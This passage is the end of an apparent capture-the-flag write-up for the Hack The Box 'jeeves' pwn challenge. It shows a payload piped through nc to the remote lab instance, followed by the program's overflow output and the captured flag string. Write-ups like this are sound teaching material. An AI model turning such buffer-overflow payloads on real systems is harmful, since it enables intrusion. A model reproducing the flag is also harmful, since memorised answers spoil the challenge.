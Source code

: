 #### Getting flag from the remote instance

```bash
┌──(root💀Jude)-[~/htb/challenges-htb/pwn/jeeves]
└─# nc 178.62.19.68 30819 < jeeves_payload 
Hello, good sir!
May I have your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��7, hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: HTB{w3lc0me_t0_lAnd_0f_pwn_&_pa1n!}
```

*That's it, Thanks for reading Hope you enjoyed it.*
#### Happy Hacking 
